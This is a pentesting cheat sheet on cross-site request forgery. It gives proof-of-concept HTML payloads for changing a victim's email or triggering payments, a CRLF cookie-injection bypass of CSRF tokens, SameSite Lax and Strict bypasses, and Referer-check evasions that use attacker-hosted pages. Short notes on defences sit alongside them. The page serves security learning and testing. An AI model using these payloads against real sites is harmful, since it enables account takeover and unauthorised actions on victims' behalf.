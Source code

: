 # CSRF

## <mark style="color:purple;">**Exploit**</mark>

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## <mark style="color:purple;">Defences</mark>

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

-   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
- `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## <mark style="color:purple;">CSRF tokens bypass</mark>

* Switch from `POST` to the `GET` method
* Remove the parameter containing the token
* Invent a token in the required format (the app doesn't keep valid server-side tokens).
* Log in to the application with your account, obtain a valid token, and then feed that token to the victim user in their CSRF attack  (some apps don't validate if the token belongs to the same session as the requesting user).
*   Are there two token: one in a cookie and one in hidden input? (this can also have the same value)

    * Some apps do tie the CSRF token to a cookie, but not to the session cookie.
    * Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
    * ```
      /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
      ```
    * Log in to the application with your account -> obtain a valid token and associated cookie.
    * Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

    ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## <mark style="color:purple;">SameSite cookies bypass</mark>

### <mark style="color:purple;">Lax bypass</mark>

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### <mark style="color:purple;">Strict bypass</mark>

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{% hint style="info" %}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{% endhint %}

## <mark style="color:purple;">Referer-based validation bypass</mark>

* Some apps validate the Referer header if present, but skip if omitted

```html
<meta name="referrer" content="never">
```

* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * To sed referer you need to add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`

{% hint style="success" %}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

<pre class="language-html"><code class="lang-html">&#x3C;!-- http://attacker-website.com/ -->
<strong>&#x3C;html>
</strong>  &#x3C;meta name="referrer" content="unsafe-url"/>
  &#x3C;body>
    &#x3C;form action="https://vulnerable-website.com/change-email" method="POST">
      &#x3C;input type="hidden" name="email" value="test@test.com" />
      &#x3C;input type="submit" value="Submit request" />
    &#x3C;/form>
    &#x3C;script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    &#x3C;/script>
  &#x3C;/body>
&#x3C;/html>
</code></pre>
{% endhint %}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy. ([https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/))
